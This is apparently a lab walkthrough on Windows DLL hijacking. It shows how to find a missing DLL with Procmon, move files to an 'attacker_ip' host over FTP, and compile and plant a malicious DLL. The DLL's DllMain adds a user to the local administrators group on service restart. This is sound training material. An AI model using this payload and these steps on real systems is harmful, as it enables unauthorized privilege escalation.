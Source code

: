 # DLL Hijacking 

**Dynamic Link Library**

- A DLL (Dynamic Link Library) is a file (extension .dll) that contains reusable code and functions
- Applications load DLLs when they need those functions (e.g., user32.dll for GUI functions)
- Loading is done via functions like LoadLibrary() or LoadLibraryEx() in Windows API

**DLL Hijacking** 

- DLL Hijacking happens when an attacker tricks an application into loading a malicious DLL instead of the legitimate one
- This works because Windows follows a search order when loading DLLs. If the application does not specify the full path of the DLL, Windows searches in a sequence of directories (e.g., the application folder, system directories, PATH, etc.)
- If the attacker can place a malicious DLL with the same name in a directory searched before the real DLL location, the application will load the attacker’s DLL

**Victim**

1. Open the Tools folder that is located on the desktop and then go the Process Monitor folder
2. In reality, executables would be copied from the victim’s host over to the attacker’s host for analysis during run time. Alternatively, the same software can be installed on the attacker’s host for analysis, in case they can obtain it. To simulate this, right click on Procmon.exe and select ‘Run as administrator’ from the menu
3. In procmon, select "filter".  From the left-most drop down menu, select ‘Process Name’
4. In the input box on the same line type: dllhijackservice.exe
5. Make sure the line reads “Process Name is dllhijackservice.exe then Include” and click on the ‘Add’ button, then ‘Apply’ and lastly on ‘OK’
6. Next, select from the left-most drop down menu ‘Result’.
7. In the input box on the same line type: NAME NOT FOUND
8. Make sure the line reads “Result is NAME NOT FOUND then Include” and click on the ‘Add’ button, then ‘Apply’ and lastly on ‘OK’
9. Open command prompt and type: sc start dllsvc
10. Scroll to the bottom of the window. One of the highlighted results shows that the service tried to execute ‘C:\Temp\hijackme.dll’ yet it could not do that as the file was not found. Note that ‘C:\Temp’ is a writable location

Now copy 'C:\Users\User\Desktop\Tools\Source\windows_dll.c' to the attacker machine using ftp port open in the attacker machine

**Attacker** 

```
// open ftp port
python -m pyftpdlib -p 21 

// login in ftp using anonymous in windows machine 
ftp attacker_ip 
put windows_dll.c 
```

Content of windows_dll.c (to make the user as administrator privilege)

```
// For x64 compile with:  x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll 
// For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll 

#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net localgroup administrator user /add");
        ExitProcess(0);
    }
    return TRUE;
}
```

**Exploitation** 

```
// Now compile the code 
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll

// Now we are transffering the hijackme.dll to windows machine using python server and place in "C:\Temp"

// stop and start the dllsvc to make dll hijacking 
sc stop dllsvc & sc start dllsvc 

// successfully we made user as administrator
net localgroup administrators 
Administrator 
user 
```
